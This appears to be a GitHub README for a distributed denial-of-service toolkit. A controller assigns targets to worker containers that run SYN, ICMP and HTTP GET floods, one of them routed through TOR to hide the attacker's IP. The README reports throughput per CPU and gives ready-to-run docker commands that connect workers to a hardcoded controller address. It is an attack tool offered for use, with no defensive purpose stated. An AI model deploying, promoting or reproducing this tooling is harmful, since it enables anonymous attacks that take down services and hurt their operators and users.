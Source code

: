 # Preparations
- Port scanner

# Attacks
#### DoS:
- SYN flood
- Ping (ICMP) flood
- HTTP GET flood

# General concept
The controller keeps track of current targets
Workers connect to contoller and ask him what to do. 

### Workers:
We currently provide 2 different type of workers that will perform the attack:

Haru - runs only HTTP flood attack, but it's very good at it, with heavy parallelization it can spam a huge amount of requests. It also includes TOR pre-installed in the docker container, so you can avoid exposing your worker's real IP address and run all requests through TOR proxy. If your machine is powerful enough you can run multiple replicas of this worker. We tested around 6 replicas on 2vCPU worked fine, and 30-40 replicas on 12vCPU.  

Aiko - combines SYN flood, ICMP flood and HTTP flood attacks in one container. The http flood portion of it is not as powerful as Haru's version, and there's no support for TOR this time. This worker is also extremely CPU intensive, it can load CPU up to 100% on small virtual machines with just one replica of the container running. 


# Run
#### Worker AIKO
```shell script
docker run --name=rvkinh-service-worker-aiko --rm -tid -e CLUSTER_ID=temp_c -e WORKER_ID=temp_w -e CONTROLLER_URL=http://142.93.38.82:8888 jpleorx/rvkinh-worker-aiko:latest
```

#### Worker HARU
```shell script
docker run --name=rvkinh-service-worker-haru --rm -tid -e CLUSTER_ID=temp_c -e WORKER_ID=temp_w -e CONTROLLER_URL=http://142.93.38.82:8888 jpleorx/rvkinh-worker-haru:latest
```

#### Controller
```shell script
docker run --name=rvkinh-service-controller --rm -tid -p 8888:8888 jpleorx/rvkinh-controller:latest
```

#### Web UI
```shell script
docker run --name=rvkinh-service-controller --rm -tid -p 8888:8888 jpleorx/rvkinh-ui:latest
```


